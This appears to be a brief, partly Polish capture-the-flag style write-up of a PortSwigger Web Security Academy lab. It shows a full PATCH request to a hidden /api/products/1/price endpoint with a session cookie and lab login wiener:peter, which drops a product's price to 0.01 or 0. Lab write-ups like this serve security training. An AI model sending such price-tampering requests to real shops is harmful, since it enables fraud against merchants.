Title: Finding and exploiting an unused API endpoint
Level: Practitioner
Desc: To solve the lab, exploit a hidden API endpoint to buy a Lightweight l33t Leather Jacket. You can log in to your own account using the following credentials: wiener:peter. 

Poszlaki: 
- /api/products/1/price GET request



![image](https://github.com/user-attachments/assets/f3bc9604-4ef0-4d79-a15c-46b5e207ac2b)

`
PATCH /api/products/1/price HTTP/2
Host: 0aab00af03bfbb638124b10f00f20078.web-security-academy.net
Cookie: session=xWnFhyJYrnXQjzToZjvgBoZKeMziePTJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aab00af03bfbb638124b10f00f20078.web-security-academy.net/product?productId=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: application/json
Content-Length: 70

{"price":1,"message":"15 people have viewed this item in the last 2h"}
`

I managed to change price for 0.01 dollar
![image](https://github.com/user-attachments/assets/9320e918-66b5-4a56-99ce-8dd368e2453d)

It is also possible to set the price = 0

